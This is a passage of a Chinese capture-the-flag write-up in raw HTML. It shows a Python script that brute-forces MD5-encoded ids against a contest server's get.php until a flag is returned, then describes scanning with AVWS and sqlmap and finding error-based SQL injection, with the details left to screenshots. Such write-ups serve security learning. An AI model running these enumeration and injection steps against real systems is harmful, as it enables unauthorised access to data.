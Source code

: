 r = requests.session()
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1000</span>):
    s = r.get(<span class="hljs-string">'http://117.34.111.15:81/'</span>)
    soup = BeautifulSoup(s.content,<span class="hljs-string">'lxml'</span>)
    token = soup.input[<span class="hljs-string">'value'</span>]
    idt = encode(md5(str(i)))
    s1 = r.get(<span class="hljs-string">'http://117.34.111.15:81/get.php?token='</span>+token+<span class="hljs-string">'&amp;id='</span>+idt)
    <span class="hljs-keyword">if</span> <span class="hljs-string">'flag{'</span> <span class="hljs-keyword">in</span> json.loads(s1.content)[<span class="hljs-string">'text'</span>]:
        <span class="hljs-keyword">print</span> json.loads(s1.content)[<span class="hljs-string">'text'</span>]
        <span class="hljs-keyword">break</span>
</code></pre>
<h1 id="0x06-just-a-test">0x06 just a test</h1>
<p>直接AVWS扫描 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170424182028844?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
再接着用sqlmap跑一下 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170424203734920?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170424203746561?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170424204147957?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
发现并没有想要的字段 <br>
可以报错注入 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170424205122533?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
这题想死的心都有了，浪费了好长时间 <br>
flag{99cd1872c9b26525a8e5ec878d230caf}</br></br></img></br></br></br></img></br></img></br></img></br></br></img></br></p></div>